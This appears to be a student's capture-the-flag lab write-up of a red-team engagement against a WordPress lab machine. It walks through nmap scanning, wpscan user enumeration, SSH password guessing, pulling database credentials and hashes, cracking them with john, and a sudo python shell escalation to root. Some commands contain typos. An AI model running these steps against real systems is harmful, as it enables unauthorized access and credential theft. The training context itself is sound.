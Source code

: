 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`nmap 192.168.1.0/24`

![full nmap 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/full%20nmap%20part%201.PNG)

![full nmap 2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/full%20nmap%20part%202.PNG)

## Target 1

`nmap 192.168.1.110`



This scan identifies the services below as potential points of entry:
- Target 1
  - Exposed Services
  * Open Port 22/TCP - SSH
  * Open Port 80/TCP - HTTP
  * Open Port 111/TCP - rpcbind
  * Open Port 139/TCP - netbios-ssn
  * Open Port 445/TCP - microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (WordPress Site)
  - Weak User Password
  - Unsalted User Password Hash (WordPress Database)
  - Misconfiguration of User Privileges/Privilege Escalation

![nmap target 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/nmap%20target%201.PNG)

### Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: `b9bbcb33ellb80be759c4e844862482d`
    - **Exploit Used**
      - WPscan was used from the attack machine to enumerate the users on the Target1 wordpress site
      - The Command use
        - `wpscan --url 192.168.1.110/wordpress/ -enumerate u`
      - SSH'd into `192.168.1.110` using the user `Michael` guessed the weak password `Michael`
      - Navigated to /var/wwww/html/
      - Ran `nano services.html` and in the footer information found Flag 1

![wordpress 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/word%20press%201.PNG)

![wordpress 2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/word%20press%202.PNG)

![Flag1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%201.png)

  - `flag2.txt`:`flag2{fc3fd58dcdad9ab23faca6e9a3e581c}`
    - **Exploit Used**
      - Flag 2 was located while exploring `Target1` to find other potential useful files.
      - `cd ..`
      - `ls`
      - `nano flag2.txt`

![flag2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%202.PNG)

 - `flag3.txt`:`flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Exploit Used**
      - During infiltration `wp-config.php` was found at `/var/www.html/wordpress`
      - `nano wp-config.php` and found the admin user is `root` and the password is `R@v3nSecurity`
      - `Crtl X` to exit nano.
      - `myspql --user=root --password=R@v3nSecurity -h 127.0.0.1` to enter the database
      - `showdatabases;` to view databases
      - `use wordpress;` to use the wordpress database
      - `select * from wp_posts;` to find flag3 and flag4 in wp_posts.
      - `select * from wp_users;` to find users and password hashes.

![user & pass](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/pass%20%26%20user.PNG)

![enter pass](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/enter%20pass.PNG)

![sql 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/sql.PNG)

![sql 2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/sql%20hashes.PNG)

![Flag3](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%203%20%26%204.PNG)

 - `flag4.txt`:`flag4{715dea6c055b9fe3337544932f2941ce}`
    - **Exploit Used**
      - Simple password and unsalted hash
        - Created a hash.txt that contained user `steven` hash `$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/` on attacking machine
        - Copied `Rockyou.txt` from `/usr/share/wordlists/rockyou.txt wp_hashes.txt` incase it is needed for another hash crack. 
        - Ran `john hash.txt --wordlist=rockyou.txt` and found that the password is `pink84`
        - Ran `-ssh steven@192.168.1.110` using pink84 as the password. 
        - Ran `sudo python -c "import pty;pty.spawn('/bin/bash')"` this gave Root privileges
        - `CD /root`
        - `ls` saw flag4.txt
        - `cat flag4.txt` to find the flag.

![john hashes](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/john%20hashes.PNG)

![flag4](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%203%20%26%204.PNG)